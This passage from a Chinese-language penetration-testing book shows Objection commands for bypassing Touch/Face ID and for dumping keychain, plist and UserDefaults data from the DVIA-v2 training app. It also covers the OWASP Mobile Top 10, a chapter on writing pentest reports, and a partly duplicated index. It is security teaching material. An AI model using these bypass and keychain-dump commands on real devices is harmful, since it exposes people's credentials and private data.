#### 使用 Objection

1.  在您的系统上运行以下命令，如 *图 11.21* 所示：

    ```
    objection -g DVIA-v2 explore
    ios ui biometrics_bypass exit
    ```

    

    **图 11.21：** 使用 Objection 绕过生物识别

2.  接下来，打开应用并选择 `Touch/Face ID Bypass` | `Start Challenge` | `Swift Implementation`，如 *图 11.22* 所示：

    

    **图 11.22：** 未识别到面容

3.  当应用提示 `Face Not Recognized` 时，选择 `Cancel` 以避免认证，如 *图 11.23* 所示：

    

    **图 11.23：** 认证成功

### 检查本地存储中的敏感数据泄露

敏感数据保存在本地存储的许多不同位置。下面列出了可以找到敏感数据的不同位置以及如何发起攻击。

打开 DVIA-v2 应用程序，然后选择 `Local Data Storage`。使用每个可用选项保存一些数据。

#### Plist 中的敏感数据

**情况 1：在 Plist 中存储敏感数据。**

请遵循以下步骤：

1.  运行以下命令：

    ```
    objection -g DVIA-v2 explore
    env
    cd /var/mobile/Containers/Data/Application/<app-id>/Documents
    ios plist cat userInfo.plist
    ```

2.  请记住，敏感数据以明文形式保存，如 *图 11.24* 所示：

    

    **图 11.24：** iOS plist cat userInfo.plist 命令

#### UserDefaults 中的敏感数据

**情况 2：在 UserDefaults 中存储敏感数据**

请遵循以下步骤：

1.  运行以下命令：

    ```
    objection -g DVIA-v2 explore
    ios nsuserdefaults get
    ```

2.  您可以看到敏感数据以明文形式包含在 `DemoValue` 参数中，如 *图 11.25* 所示：

    

    **图 11.25：** iOS “nsuserdefaults get” 命令

#### Keychain 中的敏感数据

**情况 3：在 Keychain 中存储敏感数据**

请遵循以下步骤：

1.  运行以下命令：

    ```
    objection -g DVIA-v2 explore
    ios keychain dump
    ```

2.  请注意，密码以明文形式作为敏感数据保存（Super Secure Password），如 *图 11.26* 所示：

    

    **图 11.26：** iOS keychain dump 命令

对于剩余的攻击，我们将使用 Grapefruit 工具 (<https://github.com/ChiChou/grapefruit>)。安装、启动并将您的 iPhone 连接到该应用程序。

#### Core Data 中的敏感数据

**情况 4：在 Core Data 中存储敏感数据**

请遵循以下步骤：

1.  打开 Grapefruit 并加载 DVIA-v2 应用程序。转到以下位置：`Data` | `Library` | `Application Support`。

2.  打开 `Model.sqlite`。

3.  请注意，可以访问私密数据。请参阅 *图 11.27*：

    

    **图 11.27：** Core Data 中的敏感数据

#### Couchbase Lite 中的敏感数据

**情况 5：在 Couchbase Lite 中存储敏感数据**

请遵循以下步骤：

1.  使用 Grapefruit 加载 DVIA-v2 应用程序并导航到以下位置：`Data` | `Library` | `Application Support` | `CouchbaseLite` | `dvcouchbasedb.cblite2`。

2.  下载 `db.sqlite3`，打开它，您将能够看到敏感信息。

#### YapDatabase 中的敏感数据

**情况 6：在 YapDatabase 中存储敏感数据**

请遵循以下步骤：

1.  使用 Grapefruit 加载 DVIA-v2 应用程序并导航到以下位置：`Data` | `Library` | `Application Support`。

2.  下载 `YapDatabase.sqlite` 并使用 SQLite Viewer 打开它。

3.  您将能够访问敏感数据。

## OWASP Mobile Top 10

OWASP Mobile Top 10 是根据研究和用户反馈编制的移动应用程序面临的安全威胁排名。

### M1：不当的平台使用

OWASP Mobile Top 10 的第一类重点关注攻击者可能滥用 iOS 平台提供的安全功能的领域。此外，由于平台功能实现不当，偶尔也会出现多个安全漏洞。

在此领域下，必须检查许多组件，包括生物识别认证、Keychain、平台权限等。

### M2：不安全的数据存储

很多时候，iOS 应用程序会在各个部分本地保存某些数据。如果攻击者获得用户物理设备的访问权限，敏感数据有可能被保存在本地并被用来对付用户。

以下是属于此类别的一些常见危险示例：

*   存储在 Plist 中的敏感数据
*   存储在 UserDefaults 中的敏感数据
*   存储在 Keychain 中的敏感数据
*   存储在 Core Data 中的敏感数据
*   存储在 Webkit 缓存中的敏感数据
*   存储在 Realm 中的敏感数据
*   存储在 Couchbase Lite 中的敏感数据
*   存储在 YapDatabase 中的敏感数据
*   URL 缓存（请求和响应均包括）
*   键盘按键缓存
*   复制/粘贴缓冲区缓存
*   不安全的日志记录
*   后台屏幕缓存
*   发送给第三方的分析数据

### M3：不安全的通信

iOS 应用程序中的通信采用客户端-服务器架构。由于通信标准（如 HTTP 通信）实现错误或不充分，攻击者可以尝试通过未加密的检查窃取关键信息、执行中间人攻击，或尝试使用 Burp Suite 等代理工具捕获请求和响应来进行研究。

以下是属于此类别的一些常见危险示例：

*   缺失/可绕过的 SSL Pinning
*   HTTP 通信 [未加密通信]
*   敏感信息以明文提交
*   在日志中记录敏感信息

### M4：不安全的认证

当应用程序不当处理认证检查，或允许攻击者修改登录/认证请求以访问目标用户账户时，通常被归类为不安全的认证。

以下是属于此类别的一些常见危险示例：

*   可猜测/弱/默认凭据
*   利用注入攻击等手段绕过认证

### M5：加密措施不足

iOS 应用程序经常存储用户数据或在各种客户端-服务器查询中使用它们。由于缺乏强加密，攻击者可能会尝试访问使用弱加密方法加密的数据，从而获取敏感数据。

以下是属于此类别的一些常见危险示例：

*   窃取应用和用户数据
*   访问加密文件
*   访问加密的客户端-服务器请求端点

### M6：不安全的授权


不安全的授权和不可靠的认证是经常导致混淆的两项检查。本攻击讨论了如何通过利用实施不善的用户授权检查，实施超出用户权限和访问级别的攻击。

以下是属于此类的一般危险示例：

*   IDOR
*   权限提升
*   直接请求

### M7: 客户端代码质量

由于代码质量经常较差，攻击者可能会尝试向应用内的函数调用发送精心构造的输入，试图执行它们或观察程序行为。这可能导致应用故障和可利用的情况。

以下是属于此类的一般危险示例：

*   格式化字符串漏洞
*   缓冲区溢出
*   远程代码执行
*   内存耗尽

### M8: 代码篡改

攻击者可能会尝试修改应用代码并注入恶意代码（如后门），并通过 App Store 等方式分发。如果应用未实施代码篡改检查，这可能导致敏感信息窃取和用户设备受损。

以下是属于此类的一般危险示例：

*   恶意软件注入
*   窃取敏感数据
*   持久化后门

### M9: 逆向工程

为了理解应用的代码模式、各种函数实现，并使用运行时和动态插桩方法实施绕过/攻击，逆向工程方法涉及使用 Hopper、otool 和 IDA Pro 等工具研究二进制文件及其代码。

典型实例之一是检查 SSL Pinning 逻辑的实现方式，理解负责 Pinning 检查的函数，然后使用 Frida 等工具通过创建自定义逻辑脚本来绕过它。

### M10: 多余功能

通常，开发团队在将应用发送到生产环境前会保留代码，以便简单访问后端服务器、为错误分析提供日志，或存储暂存和测试信息。这些代码对于应用运行并非必要。本质上，它们仅在开发阶段必要，应用上线后对预期用途无用。

在某些情况下，这些代码可能包含数据库信息、用户信息、用户权限、API 端点等数据，或可能禁用双因素认证等功能。

## 结论

本章讨论了 iOS 渗透测试的原则，以及避免越狱检测绕过、生物识别绕过、SSL Pinning 绕过和本地存储敏感数据泄露的各种方法。

## 问题

1.  如何绕过 SSL Pinning？
2.  如何绕过越狱检测？
3.  如何绕过生物识别？
4.  本地存储中的敏感数据泄露是如何发生的？

# 第 12 章

# 报告

## 简介

我们终于到了最后一章。恭喜！您已阅读完整本书。但在庆祝之前，我们需要解决无线渗透测试最关键的方面之一，以及如何撰写专业的无线渗透测试报告。

## 结构

本章将涵盖以下主题：

*   报告撰写
*   报告撰写阶段
*   渗透测试报告样例

#### 目标

在本章中，您将了解如何撰写专业的渗透测试报告。

## 报告撰写

撰写渗透测试报告涉及许多不同任务，包括方法论、流程、报告内容和设计的正确描述、详尽的报告示例以及测试人员自身的经验。报告完成后，会分发给目标公司的技术团队和高级管理层。如果未来出现同类需求，该报告可作为指南。

## 报告撰写阶段

撰写渗透报告涉及大量写作，分为以下阶段（如*图 12.1*进一步所示）：

*   报告规划
*   信息收集
*   撰写初稿
*   审查与定稿

```

```

**图 12.1：** 报告撰写阶段

## 报告规划

报告规划始于目标，这有助于读者理解渗透测试的关键发现。本节解释测试目的、渗透测试的优势等。其次，测试所需时间包含在报告规划过程中。

报告撰写的主要要素如下：

*   **目标**：解释渗透测试的总体目标和优势。
*   **时间**：时间记录至关重要，因为它提供了系统的实际状态。设想一下，如果日后出现问题，这份报告将保护测试人员，因为它显示了渗透测试范围内当时存在的风险和漏洞。
*   **目标受众**：信息安全经理、信息技术经理、首席信息安全官和技术团队等目标受众也应包含在渗透测试报告中。
*   **报告分类**：由于报告包含服务器 IP 地址、应用详情、漏洞和威胁等高度机密信息，因此需要适当分类。但在分类信息时，必须考虑目标组织的信息分类策略。
*   **报告分发**：副本数量和报告分发应在工作范围中说明。还需注明纸质副本可通过打印有限数量的副本来控制，并附上编号和接收者姓名。

## 信息收集

渗透测试人员必须列出每一步，以确保在所有测试阶段收集了所有信息，因为程序复杂且耗时。除了方法论，他还必须提供工具和系统、扫描结果、漏洞分析、发现的具体细节等。

## 撰写初稿

测试人员具备必要资源后，现在必须开始撰写初稿。他必须详细撰写初稿，包括所有活动、程序和经验。

## 审查与定稿

报告撰写后必须进行审查，首先由起草人审查，然后由可能提供过帮助的导师或同事审查。审查人员必须深入审查报告，查找需要修复的任何错误。

## 渗透测试报告内容

渗透测试报告的典型顺序格式如下：

*   执行摘要
    *   工作范围
    *   项目目标
    *   假设
    *   时间线
    *   发现摘要
    *   建议摘要
*   方法论
    *   规划
    *   利用
    *   报告
*   详细发现
    *   详细系统信息
    *   Windows 服务器信息
*   参考资料
    *   附录

## 渗透测试报告样例

本节展示渗透测试报告样例中的不同页面。

1.  第 1 页如*图 12.2*所示：

```

```


**图 12.2：** 渗透测试报告 第 1 页

2. 第 2 页如 *图 12.3* 所示：


**图 12.3：** 渗透测试报告 第 2 页

3. 第 3 页如 *图 12.4* 所示：


**图 12.4：** 渗透测试报告 第 3 页

4. 第 4 页如 *图 12.5* 所示：


**图 12.5：** 渗透测试报告 第 4 页

5. 第 5 页如 *图 12.6* 所示：


**图 12.6：** 渗透测试报告 第 5 页

6. 第 6 页如 *图 12.7* 所示：


**图 12.7：** 渗透测试报告 第 6 页

7. 第 7 页如 *图 12.8* 所示：


**图 12.8：** 渗透测试报告 第 7 页

8. 第 8 页如 *图 12.9* 所示：


**图 12.9：** 渗透测试报告 第 8 页

9. 第 9 页如 *图 12.10* 所示：


**图 12.10：** 渗透测试报告 第 9 页

10. 第 10 页如 *图 12.11* 所示：


**图 12.11：** 渗透测试报告 第 10 页

11. 第 11 页如 *图 12.12* 所示：


**图 12.12：** 渗透测试报告 第 11 页

12. 第 12 页如 *图 12.13* 所示：


**图 12.13：** 渗透测试报告 第 12 页

13. 第 13 页如 *图 12.14* 所示：


**图 12.14：** 渗透测试报告 第 13 页

14. 第 14 页如 *图 12.15* 所示：


**图 12.15：** 渗透测试报告 第 14 页

15. 第 15 页如 *图 12.16* 所示：


**图 12.16：** 渗透测试报告 第 15 页

## 结论

在本章中，我们介绍了如何规划报告以及如何从零开始编写报告。有时编写报告可能会很困难，但一旦你掌握了诀窍，你就能像专业人士一样撰写报告。

作为作者，我有责任为您——我的读者——提供最佳的阅读体验。所以现在轮到您了！您对这本书有何看法？您学到的东西是否超出预期？是否太复杂或难以理解？实战案例是否不够丰富？您是否觉得有遗漏的内容？请随时通过 BPB Online 的 [`www.bpbonline.com`](https://www.bpbonline.com) 页面与我联系。后会有期！

## 索引

### 符号

802.11 EAP 降级攻击 36

802.11 身份盗窃 35

802.11 LEAP 破解 36

802.11 密码猜测攻击 35, 36

802.11 RADIUS 破解 26

### A

访问控制攻击 22

802.11 RADIUS 破解 26

Ad hoc 关联 24, 25

MAC 地址欺骗 25, 26

非法接入点 23, 24

网络侦察/战争驾驶 23

接入点 (AP) 23

配置 15\-17

连接 18\-20

主动扫描 49

Ad hoc 24

高级无线攻击

中间人攻击 150\-159

Metasploit 160\-163

捕获未加密流量 150

Aircrack-ng 14

Android 应用程序

保护安全 230

Android 架构 192

Android Runtime (ART) 194

应用框架 199

应用层 200

Dalvik 虚拟机 195

Java 虚拟机 195

Linux 内核 193

Zygote 196

Android 调试桥 207

在设备上安装应用程序 209

应用侧载 212

获取设备访问权限 208, 209

连接设备 208

停止设备 211

从设备提取文件 210

向设备存储文件 210

查看日志信息 211

Android 渗透测试 191

Android 渗透测试环境搭建 201

Android 调试桥 207

Android SDK 206

Android Studio 201

Genymotion 212

在 Wi-Fi 设置中设置代理 224\-226

在移动网络设置中设置代理 226

Android 渗透测试工具 227

Android 调试桥 (ADB) 227

d2j-dex2jar 228

Drozer 228

JD-GUI 229

MobSF 227

Objection 229

Android Runtime (ART) 194\-196

编译 197

Android SDK 206

Android Studio 201

下载 202

安装 203\-206

先决条件 202

Android 虚拟设备 (AVD) 管理器 212

Android 虚拟模拟器

配置 HTTP 代理 223, 224

创建 216\-218

AP 钓鱼 29

应用框架，Android

活动管理器 199

内容提供者 199

位置管理器 200

通知管理器 199

包管理器 199

资源管理器 199

电话管理器 200

视图系统 199

窗口管理器 200

应用层，Android

原生 Android 或系统应用 200

用户安装或自定义应用 200

认证攻击

802.11 EAP 降级攻击 36, 37

802.11 身份盗窃 35

802.11 LEAP 破解 36

802.11 密码猜测 35

嗅探应用程序凭据 33

破解域账户 34

PSK 破解 32

共享密钥猜测 32

VPN 登录破解 34

认证者 MAC 地址 (Access PointMAC) 69

认证者随机数 (ANounce) 69

### B

Burp Suite 223

### C

客户端攻击

跨站脚本 (XSS) 130

蜜罐攻击 136

欺骗 130

类型 130, 131

嗅探未加密流量 131\-136


## 索引

### A

- **AP 钓鱼** 29

### C

- **机密攻击** 128\-130
- **核心 Java 库** 196
- **凭证攻击** 30
- **凭证收集器** 30, 31
- **跨站脚本 (XSS)** 130

### D

- **d2j-dex2jar** 228
- **Dalvik 虚拟机 (DVM)** 194\-196
- **双重跳板** 185, 186
  - **ProxyChains** 186\-189
- **Drozer** 228
- **dsniff** 55\-57
- **DVM 专用库** 196
- **动态主机配置协议 (DHCP)** 142

### E

- **窃听** 27
- **easy file share BoF** 182\-185
- **Ettercap** 51\-55
- **邪恶双生 AP** 28

### F

- **伪造接入点 (伪造 Wi-Fi)**
  - **启动** 138\-146
- **联邦通信委员会 (FCC)** 49
- **第一跳板与端口转发**
  - **攻陷** 170\-172
- **足迹收集** 40, 41

### G

- **Genymotion** 212
  - **ARM 应用与应用商店** 221\-223
  - **安装** 213\-215
- **Genymotion 模拟器**
  - **应用程序，安装** 219
- **Genymotion 插件**
  - **安装，至 Android Studio** 220, 221
- **全球定位系统 (GPS)** 23

### H

- **蜜罐攻击** 136
  - **防范** 137, 138
- **主机**
  - **识别** 82
  - **易受攻击的主机，检测** 85\-101

### I

- **集成开发环境 (IDE)** 201** 137
- **iOS 应用程序** 240
  - **架构** 240
  - **IPA 文件结构** 241
  - **测试方法** 245
  - **易受攻击的应用程序** 245
- **iOS 应用程序沙箱结构** 242, 243
- **越狱** 243, 244
- **iOS 架构**
  - **Cocoa Touch (应用)** 241
  - **核心 OS** 241
  - **核心服务** 241
  - **媒体** 241
- **iOS 渗透测试** 239

### J

- **越狱** 243
  - **半绑定越狱** 244
  - **半非绑定越狱** 244
  - **绑定越狱** 243
  - **非绑定越狱** 243
- **Java 互操作库** 196
- **Java 虚拟机 (JVM)** 194, 195
- **JD-GUI** 229

### K

- **Kali Linux**
  - **下载** 5
  - **安装，在 VMware 中** 6\-11
- **KFSensor** 137

### L

- **Linux**
  - **对比 Linux 内核** 194
- **Linux 内核** 193

### M

- **MAC 欺骗** 25
- **中间人攻击** 30
  - **防范** 137, 138
- **消息完整性检查 (MIC)** 70
- **Metasploit** 15, 160\-163
- **缓解措施** 189
- **移动安全框架** 227
- **MS08-067，配合 bind TCP** 180, 181

### N

- **原生开发工具包 (NDK)** 197
- **原生库** 197
  - **Freetype** 198
  - **libc** 198
  - **媒体框架** 198
  - **OpenGL ES** 198
  - **安全套接字层 (SSL)** 198
  - **SGL** 198
  - **SQLite** 198
  - **Surface Manager** 198
  - **WebKit** 198
- **Nessus**
  - **下载** 108
  - **安装** 108\-115
- **Nessus Essentials** 111
- **Nessus Professional** 111
- **Nessus 漏洞扫描**
  - **配置** 118\-120
  - **启动** 121\-123
  - **策略，配置** 116, 117
  - **报告，生成** 123\-125
  - **运行** 115
- **网络映射器** 13, 14, 41
  - **命令** 42\-48
  - **通过跳板** 172\-175
- **网络映射工具** 82
  - **用于识别主机** 83, 84
- **网络规模**
  - **确定** 85
  - **确定，使用 Kali Linux** 85

### O

- **Objection** 229
- **原始设备制造商 (OEM)** 198
- **OWASP 移动漏洞，Android** 230, 231
  - **客户端代码质量** 235, 236
  - **代码篡改** 236
  - **额外功能** 236, 237
  - **不当平台使用** 231, 232
  - **不安全的身份认证** 233, 234
  - **不安全的授权** 234, 235
  - **不安全的通信** 233
  - **不安全的数据存储** 232, 233
  - **加密不足** 234
  - **逆向工程** 236
- **OWASP 移动漏洞，iOS** 258
  - **客户端代码质量** 260
  - **代码篡改** 260
  - **额外功能** 261
  - **不当平台使用** 258
  - **不安全的身份认证** 259
  - **不安全的授权** 259, 260
  - **不安全的通信** 259
  - **不安全的数据存储** 258
  - **加密不足** 259
  - **逆向工程** 260, 261
- **OWASP ZAP** 224

### P

- **成对主密钥 (PMK)** 75
- **成对临时密钥 (PTK)** 69
- **Paros Proxy** 224
- **被动扫描** 49
- **基于密钥的密钥派生函数 (PBKDF2)** 69
- **渗透测试报告**
  - **内容** 265, 266
  - **示例** 266\-273
- **钓鱼** 31
- **跳板** 169
- **端口转发** 175\-177
- **防范，针对威胁**
  - **主机，识别** 101
  - **网络规模，确定** 101
  - **易受攻击的主机** 102
- **ProxyChains** 186\-189
- **PSK 破解** 32

### R

- **远程认证拨入用户服务 (RADIUS)** 26


## 索引

### R

#### 报告，漏洞评估

- 生成 123–125

#### 报告撰写 264

- 定稿 265
- 初稿，撰写 265
- 信息收集 265
- 渗透测试报告内容 265，266
- 规划 264，265
- 审查 265
- 阶段 264

#### 非法接入点 24

#### 路由 168，169

### S

#### Scapy 13

#### 第二跳板

- 访问，获取 180
- 简单文件共享 BoF 182–185
- 带绑定 TCP 的 MS08-067 180，181

#### 半完美越狱 244

#### 半非完美越狱 244

#### 敏感数据泄露，检查

#### 敏感数据

- 在 Core Data 中 256
- 在 Couchbase Lite 中 257
- 在钥匙串中 256
- 在 Plist 中 254
- 在 UserDefaults 中 255
- 在 YapDatabase 中 257

#### 共享密钥猜测 32

#### 嗅探 33

#### 社会工程学工具包 (SET) 30

#### 欺骗 130

#### SSH 暴力破解

- 通过跳板 178，179

#### 申请者随机数 (SNounce) 69

### T

#### 目标

- 识别 57

#### 测试方法论，iOS 245

- 生物识别（本地）认证，绕过 252–254
- IPA，提取 245
- 越狱检测，绕过 249
- 使用 Frida 绕过越狱检测 250
- 使用 Objection 绕过越狱检测 250，251
- 代理，设置 247–249
- 敏感数据泄露，在本地检查 254
- SSL 绑定，绕过 251
- 使用 Objection 绕过 SSL 绑定 251，252
- 使用 MobSF 运行静态分析 246，247

#### 完美越狱 243

### U

#### 未加密流量

- 捕获 150–159
- 嗅探 131–136

#### 非完美越狱 243

### V

#### 漏洞评估 103

- 组件 105，106
- 示例 106–108
- 规划 105
- 报告，生成 123–125
- 漏洞，解决 125

#### 漏洞扫描器

- 设置 108

#### 易受攻击的主机

- 检测 85–101

### W

#### 战争驾驶 23

#### WEP 加密 63

#### WEP 密钥破解 27

- 示例 28

#### Wi-Fi Protected Setup (WPS) 21

#### 无线网卡

- 安装 17，18

#### 无线攻击

- 规划 62

#### 无线蜜罐 136

#### 无线网络发现 41

- Nmap 41
- Zenmap 48

#### 无线网络嗅探 50

#### 无线密码破解 63

- 加快破解过程 75–77
- MAC 地址，欺骗 77–79
- WEP 加密，破解 64–68
- 加快 WPA 和 WPA2 破解 75
- WPA 和 WPA2 加密 68–70
- WPA-PSK 和 WPA2-PSK 密码短语，破解 70–75

#### 无线渗透测试

- 硬件要求 3，4
- 软件要求 4，5

#### 无线渗透测试工具

- Aircrack-ng 14
- Metasploit 15
- Nmap 13，14
- Scapy 13
- Wireshark 12

#### 无线扫描 49

- 主动扫描 49
- 被动扫描 49
- 工作原理 50

#### Wireshark 12，51

#### WPA 和 WPA2 加密 68，69

#### WPS PIN 21

### Z

#### Zenmap 48

#### Zygote 196，197

